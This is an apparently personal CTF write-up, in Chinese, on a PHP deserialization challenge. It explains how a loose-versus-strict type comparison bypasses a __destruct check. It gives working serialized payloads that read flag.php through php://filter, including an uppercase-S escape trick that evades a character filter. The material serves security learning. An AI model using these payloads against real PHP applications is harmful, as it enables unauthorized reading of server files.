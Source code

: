 ![[Pasted image 20221104081222.png]]

好一个一语双关
```php
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler
{
	protected $op;
	protected $filename;
	protected $content;
	function __construct()
	{
		$op = "1";
		$filename = "/tmp/tmpfile";
		$content = "Hello World!";
		$this->process();
	}
	public function process()
	{
		if($this->op == "1")
		{
			$this->write();
		}
		else if($this->op == "2")
		{
			$res = $this->read();
			$this->output($res);
		}
		else
		{
			$this->output("Bad Hacker!");
		}
	}
	private function write()
	{
		if(isset($this->filename) && isset($this->content))
		{
			if(strlen((string)$this->content) > 100)
			{
				$this->output("Too long!");
				die();
			}
			$res = file_put_contents($this->filename,
									 $this->content);
			if($res)
			{
				$this->output("Successful!");
			}
			else 
			{
				$this->output("Failed!");
			}
		}
		else
		{
			$this->output("Failed!");
		}
	}
	private function read()
	{
		$res = "";
		if(isset($this->filename))
		{
			$res = file_get_contents($this->filename);
		}
		return $res;
	}
	private function output($s)
	{
		echo "[Result]: <br>";
		echo $s;
	}
	function __destruct()
	{
		if($this->op === "2")
		{
			$this->op = "1";
		}
		$this->content = "";
		$this->process();
	}
}

function is_valid($s)
{
	for($i = 0; $i < strlen($s); $i++)
	{
		if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
		{
			return false;
		}
	}
	return true;
}

if(isset($_GET{'str'}))
{
	$str = (string)$_GET['str'];
	if(is_valid($str))
	{
		$obj = unserialize($str);
	}
}
```
注意到
```php
function __destruct()
{
	if($this->op === "2")
	{
		$this->op = "1";
	}
	$this->content = "";
	$this->process();
}
```
`__destruct`方法中`$this->op`与`"2"`的比较是强类型比较

而
```php
public function process()
{
	if($this->op == "1")
	{
		$this->write();
	}
	else if($this->op == "2")
	{
		$res = $this->read();
		$this->output($res);
	}
	else
	{
		$this->output("Bad Hacker!");
	}
}
```
`process`方法中`$this->op`与`"1"`和`"2"`的比较是[[弱类型比较绕过|弱类型比较]]

可利用这一点绕过`__deconstruct`的限制
```php
/?str=O:11:"FileHandler":3:{s:5:"%00*%00op";i:2;s:11:"%00*%00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:10:"%00*%00content";s:3:"123";}
```
发现并没有反应，原来是`%00`被`is_valid`拦截了，搜索发现可通过将序列化文本中的`s`改为`S`来支持16进制转义
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
![[Pasted image 20221104092901.png]]

![[Pasted image 20221104093055.png]]

#Web #反序列化 #PHP #绕过 #LFI